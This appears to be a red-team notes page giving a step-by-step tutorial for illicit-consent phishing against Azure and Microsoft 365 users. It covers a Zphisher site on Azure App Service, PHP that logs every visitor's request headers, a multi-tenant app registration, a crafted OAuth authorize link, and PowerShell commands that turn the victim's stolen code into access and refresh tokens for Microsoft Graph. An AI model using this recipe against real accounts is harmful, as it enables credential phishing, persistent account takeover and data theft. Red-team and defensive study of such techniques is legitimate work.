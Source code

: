 # Azure Application service phishing

## Azure Application service phishing

The goal is to create a portal which will prompt the victim to accept specific access from an application into his account.

### Installation

Set up an APP service and Zphisher

{% embed url="https://b3v1l.gitbook.io/offensive-security-and-other-stuff/offsec/cloud-pentesting/cloud-redteam-operation/phishing-techniques/azure/azure-apps-phishing" %}

### Configuration

Add the following lines into the `/home/site/wwwroot/ip.php` (just before `fclose($fp);` )

```php
foreach (getallheaders() as $name => $value) {
                fwrite($fp, "$name: $value <br>");
}
```

### APP registration

On the portal, register a new APP (which will be what the victim will see)

![](<../../../../.gitbook/assets/image (141).png>)

Create an application display name, set the account type to "multi-tenant" and set the redirect link to the phishing web page&#x20;

![](<../../../../.gitbook/assets/image (24).png>)

### API Permissions

![](<../../../../.gitbook/assets/image (195).png>)

* Set up pernissions (to be able to authenticate as the user)

![](<../../../../.gitbook/assets/image (78).png>)

![](<../../../../.gitbook/assets/image (313).png>)

### Admin consent requires

Certain permissions require an admin consent to work...

By default, an user has the ability to set up an application (accept and consent for the organization).&#x20;

![](<../../../../.gitbook/assets/image (28).png>)

For instance, mail.read doesn't work for multi-tenant (same tenant is ...).

### Application Secret

Create a new secret for the application

![](<../../../../.gitbook/assets/image (172).png>)

### Set up the phishing link

Craft the URL which will be sent to the victim

* Get the "application ID" from overview menu

![](<../../../../.gitbook/assets/image (20) (1).png>)

* Replace the Client\_ID value in the following link. Same for URI\_redirect (using the **phishing instance url**)

```csharp
https://login.microsoftonline.com/organizations/oauth2/v2.0/authorize?client_id=<your-client-id>&response_type=code&redirect_uri=https%3A%2F%2F<your-azure-app-service-domain>.azurewebsites.net&response_mode=query&scope=openid%20offline_access%20profile%20user.read%20email&state=1234
```

### Victim point of view

* Victim clicks on the link and get a login prompt

![](<../../../../.gitbook/assets/image (289).png>)

* Permissions request

![](<../../../../.gitbook/assets/image (96).png>)

![](<../../../../.gitbook/assets/image (165).png>)

### Steal the OAuth token&#x20;

* lifetime really short (\~ 10 minutes) but can be refreshed&#x20;

![](<../../../../.gitbook/assets/image (88).png>)

### Import the token

```csharp
$oauth_token = "TOKEN_HERE"
Import-Module AzureOAuthTools.ps1
Get-AzureAccessToken -ClientID “<your-azure-app-client-id>” -ClientSecret “<your-azure-app-secret>” -RedirectUri “https://<yourdomain>.azurewebsites.net” -AuthCode $oauth_token
```

![](<../../../../.gitbook/assets/image (163).png>)

### Access to the Microsoft Graph using the token

```csharp
Check-MSGraphAccess -access_token "Token from previous command"
```

![](<../../../../.gitbook/assets/image (114).png>)

### Refresh the token

```csharp
 Get-NewAccessTokenWithRefreshToken -ClientID "<Client_ID>" -ClientSecret "<Client_Secret>" -RedirectUri "https://<SITE>.azurewebsites.net" -RefreshToken "<Refresh TOKEN FROM PREVIOUS CMD>"
```

![](<../../../../.gitbook/assets/image (269) (1).png>)

### Resources

{% embed url="https://gist.githubusercontent.com/dafthack/4a753e00ee946a0d967fcffa9fc1c526/raw/e34ed34f9900c061bf4920dfd454f577d4191414/AzureOAuthTools.ps1" %}



